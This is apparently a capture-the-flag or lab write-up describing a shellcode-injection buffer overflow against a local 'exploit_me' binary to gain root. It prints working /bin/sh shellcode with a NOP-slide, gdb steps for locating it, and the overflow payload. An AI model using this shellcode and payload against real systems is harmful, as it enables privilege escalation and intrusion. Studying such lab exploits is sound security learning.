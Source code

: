 # EXPLOIT 3: ANOTHER BUFFER OVERFLOW METHOD

Returning to `zaz` user, we can explore an alternative method to exploit the binary.

## Shellcode injection

Instead of performing a `Ret2libc` attack, we can opt for a `Shellcode injection`. The objective of this attack is to inject the opcode of a shellcode into the stack after overflowing the buffer.

We'll be injecting [this shellcode](https://shell-storm.org/shellcode/files/shellcode-811.html) for this exploit. First, we need to place the shellcode, with a NOP-slide preceding it, into the environment variables which will shorten its address and make it more accessible.

```sh
export SHELLCODE=$(python -c 'print("\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")')
```

Next, we need obtain the address of the environment variable we set up in order to construct the payload. We'll accomplish this using **gdb**.

```
> b main
> r
> call (char *)getenv("SHELLCODE")
```

The address of the environment variable is `0xbffff8a7`. We'll examine the next 50 addresses to identify a location where there will be only NOP-slide instructions in the opcode, ensuring a safe landing for our shellcode.

```
x/50x 0xbffff8a7
```

![alt text](../images/shellcode.png)

We can use any address that contains only NOP-slide instructions for the payload. For instance, `0xbffff8d7` is a suitable choice.\
Finally, since we know from the previous exploit in [writeup1](../writeup1.md) that the offset is at 140, we can construct the payload using all the information we've gathered as follows:

```sh
./exploit_me $(python -c 'print("A"*140 + "\xd7\xf8\xff\xbf")')
```

And we're **root**!